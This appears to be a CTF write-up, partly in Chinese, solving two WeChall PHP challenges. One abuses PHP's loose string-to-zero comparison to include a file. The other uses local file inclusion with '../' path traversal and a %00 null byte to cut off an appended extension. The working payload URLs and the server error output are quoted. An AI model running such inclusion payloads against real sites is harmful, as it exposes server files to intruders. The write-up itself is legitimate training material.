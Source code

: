 ```
?>
Your mission is to include solution.php.
Here is the script in action: News, Forum, Guestbook.

Good Luck!
--
https://www.wechall.net/challenge/php0817/index.php
```

Solution:
LFI: Local File inclusion
PHP代码为判断which的case语句，其中，which==0/1/2/时会执行$which.'.php'，其他值时，会报错误信息
初步理解，将which=solution，是不是就能通过index.php执行solution.php了
结果确实是成功了，可为什么which=solution时通过了which==0/1/2的判断呢？？？
- 当一个非数字开头的字符串与数字0进行==比较时，结果总是true！

Result:
https://www.wechall.net/challenge/php0817/index.php?which=solution

---

**Training: PHP LFI (Exploit, PHP, Training)** 2.9
```
Your mission is to exploit this code, which has obviously an LFI vulnerability:

GeSHi`ed PHP code
$filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';
include $filename;


There is a lot of important stuff in ../solution.php, so please include and execute this file for us.
...
--
https://www.wechall.net/challenge/training/php/lfi/up/index.php
```
Solution:
趁热打铁，看见file，明白是用路径进行LFI攻击，但是一直访问不进去
后来看攻略发现报错里显示的是
```
PHP Warning(2): include(pages/../../solution.php.html): failed to open stream: No such file or directory in /home/wechall/www/wc5/www/challenge/training/php/lfi/up/index.php(54) : eval()'d code line 1

PHP Warning(2): include(): Failed opening 'pages/../../solution.php.html' for inclusion
```
发现多了个.html，用%00截断，通过

Result:
https://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00


---

